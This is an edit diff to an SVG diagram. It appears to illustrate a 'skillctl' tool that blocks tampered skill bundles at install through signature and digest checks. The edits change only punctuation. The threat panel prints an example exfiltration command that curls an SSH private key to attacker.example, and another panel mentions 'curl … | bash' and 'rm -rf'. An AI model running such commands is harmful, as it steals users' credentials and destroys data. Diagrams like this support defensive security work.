

<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 960 600" font-family="system-ui,-apple-system,Segoe UI,Roboto,sans-serif">
  <defs>
    <marker id="arw" markerWidth="10" markerHeight="10" refX="7" refY="3" orient="auto" markerUnits="strokeWidth">
      <path d="M0,0 L7,3 L0,6 Z" fill="#57606a" />
    </marker>
    <marker id="arwR" markerWidth="10" markerHeight="10" refX="7" refY="3" orient="auto" markerUnits="strokeWidth">
      <path d="M0,0 L7,3 L0,6 Z" fill="#e5484d" />
    </marker>
  </defs>
  <rect width="960" height="600" fill="#ffffff" />
  <rect width="960" height="600" fill="none" stroke="#d0d7de" stroke-width="2" />
  <rect x="0" y="0" width="960" height="86" fill="#7c5cff" />
  <circle cx="46" cy="43" r="24" fill="#ffffff" opacity="0.18" />
  <text x="46" y="52" font-size="26" font-weight="700" fill="#ffffff" text-anchor="middle">1</text>
  <text x="88" y="38" font-size="24" font-weight="700" fill="#ffffff">A poisoned script cannot poison the workspace</text>
-   <text x="88" y="66" font-size="15" fill="#ffffff" opacity="0.9">The signature PREVENTS the run — it does not merely describe the risk</text>
+   <text x="88" y="66" font-size="15" fill="#ffffff" opacity="0.9">The signature PREVENTS the run. It does not merely describe the risk</text>
  <rect x="726" y="26" width="60" height="26" rx="13" fill="#ffffff" opacity="0.22" />
  <text x="756" y="44" font-size="14" font-weight="700" fill="#ffffff" text-anchor="middle">G3</text>
  <rect x="794" y="26" width="140" height="26" rx="13" fill="#2ea043" />
-   <text x="864" y="44" font-size="13" font-weight="700" fill="#ffffff" text-anchor="middle">✓ BUILT — runnable</text>
+   <text x="864" y="44" font-size="13" font-weight="700" fill="#ffffff" text-anchor="middle">✓ BUILT: runnable</text>
  <text x="40" y="126" font-size="14" font-weight="700" fill="#e5484d" letter-spacing="1">THREAT</text>
  <text x="560" y="126" font-size="14" font-weight="700" fill="#2ea043" letter-spacing="1">skillctl GATE</text>
  <g>
    <rect x="40" y="140" width="360" height="52" rx="9" fill="#fdece9" stroke="#e5484d" stroke-width="1.5" />
    <text x="60" y="164" font-size="15" font-weight="600" fill="#24292f">Attacker edits scripts/run.sh inside the .skb</text>
    <text x="60" y="183" font-size="13" fill="#57606a">adds curl attacker.example/$(cat ~/.ssh/id_rsa)  ·  repacks</text>
    <line x1="220" y1="192" x2="220" y2="222" stroke="#57606a" stroke-width="2" marker-end="url(#arw)" />
    <rect x="40" y="224" width="360" height="46" rx="9" fill="#f6f8fa" stroke="#d0d7de" stroke-width="1.5" />
    <text x="60" y="252" font-size="15" font-weight="600" fill="#24292f">Victim: skillctl install hello-writer.skb</text>
    <line x1="220" y1="270" x2="220" y2="300" stroke="#57606a" stroke-width="2" marker-end="url(#arw)" />
    <rect x="40" y="302" width="360" height="46" rx="9" fill="#f6f8fa" stroke="#d0d7de" stroke-width="1.5" />
    <text x="60" y="330" font-size="14" fill="#24292f">§7 verify chain recomputes SHA-256 of the bundle</text>
  </g>
  <line x1="400" y1="325" x2="548" y2="325" stroke="#57606a" stroke-width="2.5" marker-end="url(#arw)" />
  <g>
    <rect x="556" y="150" width="368" height="198" rx="14" fill="#eafaf0" stroke="#2ea043" stroke-width="2" />
-     <text x="580" y="182" font-size="17" font-weight="700" fill="#1a7f37">BLOCK — digest mismatch</text>
+     <text x="580" y="182" font-size="17" font-weight="700" fill="#1a7f37">BLOCK: digest mismatch</text>
    <text x="580" y="208" font-size="13.5" fill="#24292f">Recomputed digest ≠ signed digest.</text>
    <text x="580" y="228" font-size="13.5" fill="#24292f">Atomic install: nothing is written to</text>
    <text x="580" y="246" font-size="13.5" fill="#24292f">~/.claude/skills/. Workspace stays clean.</text>
    <rect x="580" y="264" width="118" height="40" rx="8" fill="#1a7f37" />
    <text x="639" y="290" font-size="18" font-weight="800" fill="#ffffff" text-anchor="middle">exit 10</text>
    <text x="712" y="283" font-size="12.5" fill="#57606a">re-signed by attacker → exit 12</text>
    <text x="712" y="300" font-size="12.5" fill="#57606a">forged author sig  → exit 11</text>
    <text x="580" y="332" font-size="12.5" fill="#1a7f37" font-weight="600">Mechanism: ed25519 signed .skb · a modified byte breaks the digest</text>
  </g>
  <rect x="40" y="392" width="884" height="150" rx="12" fill="#fff5f5" stroke="#e5484d" stroke-width="1.5" />
  <text x="60" y="422" font-size="14" font-weight="700" fill="#e5484d" letter-spacing="1">⚠  WITHOUT skillctl</text>
  <rect x="60" y="436" width="300" height="46" rx="9" fill="#ffffff" stroke="#e5484d" stroke-width="1.3" />
  <text x="78" y="464" font-size="14" fill="#24292f">curl … | bash   ·   copy the folder in</text>
  <line x1="360" y1="459" x2="470" y2="459" stroke="#e5484d" stroke-width="2.5" marker-end="url(#arwR)" />
  <rect x="472" y="436" width="432" height="46" rx="9" fill="#ffffff" stroke="#e5484d" stroke-width="1.3" />
  <text x="490" y="458" font-size="14" font-weight="600" fill="#b62324">The poisoned script RUNS</text>
-   <text x="490" y="475" font-size="12.5" fill="#57606a">secret exfiltration / rm -rf — no digest check, nothing stops it</text>
-   <text x="60" y="516" font-size="13.5" fill="#57606a">The line: tamper is mathematically detectable. skillctl gates it at load — the malicious code never executes.</text>
+   <text x="490" y="475" font-size="12.5" fill="#57606a">secret exfiltration / rm -rf, no digest check, nothing stops it</text>
+   <text x="60" y="516" font-size="13.5" fill="#57606a">The line: tamper is mathematically detectable. skillctl gates it at load: the malicious code never executes.</text>
  <text x="924" y="576" font-size="11" fill="#8c959f" text-anchor="end">m3c skill-trust · FR-0045 / SPEC-0188 §7 · KuP demo scenario 1</text>
</svg>
